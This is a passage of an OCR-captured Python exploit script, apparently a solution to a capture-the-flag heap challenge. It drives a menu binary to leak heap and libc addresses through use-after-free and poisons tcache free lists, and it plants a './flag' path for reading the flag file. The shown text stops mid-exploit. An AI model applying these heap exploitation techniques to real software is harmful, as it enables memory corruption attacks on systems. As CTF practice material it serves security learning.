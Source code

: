 ```python
	sla('Your choice:',str(num))

def add(idx,sz):
	cho(1)
	sla('Index:',str(idx))
	sla('Size:',str(sz))

def edit(idx,val):
	cho(2)
	sla('Index:',str(idx))
	ru('Content:')
	sl(val)

def show(idx):
	cho(3)
	sla('Index:',str(idx))

def delete(idx):
	cho(4)
	sla('Index:',str(idx))


for i in range(25):
	add(0,0x78)

  
add(0,0x38)
delete(0)
show(0)
ru('Content: ')
heap=leak_address()
print('[+]heap: '+hex(heap))


edit(0,p64(heap+0xcb0))
add(0,0x38)
add(0,0x38)
edit(0,p64(0)+p64(0x501-0x20))
add(0,0x58)
delete(0)
show(0)
ru('Content: ')
libcbase=leak_address()-0x3ebca0
print('[+]libcbase: '+hex(libcbase))


for i in range(24):
	add(0,0x78)
add(0,0x58)
edit(0,'./flag\x00')

add(0,0x28)
delete(0)
add(0,0x58)
delete(0)
add(0,0x78)
delete(0)
add(0,0x48)
delete(0)

add(0,0x68)
delete(0)
edit(0,p64(heap+0x1da0))
```